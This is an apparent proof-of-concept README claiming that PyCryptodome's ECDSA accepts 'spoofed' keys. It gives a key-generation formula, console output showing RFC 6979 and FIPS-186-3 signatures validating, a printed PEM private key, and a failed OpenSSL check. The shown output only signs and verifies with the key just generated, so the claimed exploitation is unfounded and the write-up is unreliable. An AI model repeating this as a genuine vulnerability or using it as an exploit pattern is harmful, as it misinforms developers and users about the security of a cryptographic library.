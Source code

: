 # ECC On The Curve Vulnerability

## Exploiting ECDSA Signatures

### Issue:

ECDSA signatures will improperly validate spoofed keys with forced public keys. In this proof-of-concept ECDSA keys are generated with ```length = len(x+y) ``` and ```d = random(length)-(x+y)``` to exploit PyCryptodomes ECDSA implementations.

- https://github.com/Legrandin/pycryptodome/blob/master/lib/Crypto/Signature/DSS.py
- https://www.rfc-editor.org/rfc/rfc6979
- https://csrc.nist.gov/csrc/media/publications/fips/186/3/archive/2009-06-25/documents/fips_186-3.pdf


### Proof of Concept:

```
 python .\ECCTool.py
X: 4105375390653649233713119777321734233266869078187987018407577420645365974521940631581724628993333063239514030334497
Y: 27675056301647551922849568396717635354139598802203471838229080227718009101673931134993105203564358052385576850782585
D: 27362011191244522599400977620412273256865510408751044570755755486992953037333842464164901064989290490254223630055135
------------------------------------------------------------------------------
Spoofed X: 4105375390653649233713119777321734233266869078187987018407577420645365974521940631581724628993333063239514030334497
X matches
Spoofed Y: 27675056301647551922849568396717635354139598802203471838229080227718009101673931134993105203564358052385576850782585
Y matches
------------------------------------------------------------------------------
Exporting Key
-----BEGIN PRIVATE KEY-----
MIG2AgEAMBAGByqGSM49AgEGBSuBBAAiBIGeMIGbAgEBBDCxxkp6uxcwPfu7QYSd
qjki7PEfmzP/jlBgZHLuOWGbzzVwLQN1OHwZzGNJpOiCtt+hZANiAAQarFRaqflo
I+d61SRvU8Za2EurxtW20eZzca7dnNYMYf3boIkDuAUU7FfO7l0/4iGzzvfUinng
o4N+LZfQYcTxmdwlkWOrfzCjtHDix6EznPO/LlxTsV+zfTJ/ijTjeXk=
-----END PRIVATE KEY-----
------------------------------------------------------------------------------
Testing deterministic-rfc6979 signature
Signature: b'06MvLMpqCepsI43/rUKaQDatG1q7ch+6jT1cpairfqIJNyNtHgCniD01Z6DWCZyjl5o4XX8YIQLZ1gJvz54FRQpt0SuJ2jGuJRzwy80tpJz1UjEpIEAB8q61tFM9WMF0'
deterministic-rfc6979 signature generated
deterministic-rfc6979 signature is validated!
Successful exploitation of on the curve vulnerability!
------------------------------------------------------------------------------
Testing FIPS-186-3 signature
Signature generated
Signature: b'yKQZ+itxNbdgbYMHZ9B0dHYxLtX00qNrmy0xGcwi1ODbEmk344wiQAFGq5mDy3hlD9UyWyy8vb1rQrjPvZKBgMbisnmYSHtZRr0fnGLJW11hFIcd1Cd73D26YWjLOdlo'
FIPS-186-3 signature is validated!
Successful exploitation of on the curve vulnerability!
------------------------------------------------------------------------------
Results for 'On the Curve Vulnerability':
RFC 6979: True
FIPS-186-3: True
```
### Testing against OpenSSL

```
OpenSSL> dgst -sha256 -sign key.pem -out signature.sign id.db
OpenSSL> dgst -sha256 -prverify key.pem -signature signature.sign id.db
Verification Failure
error in dgst
```
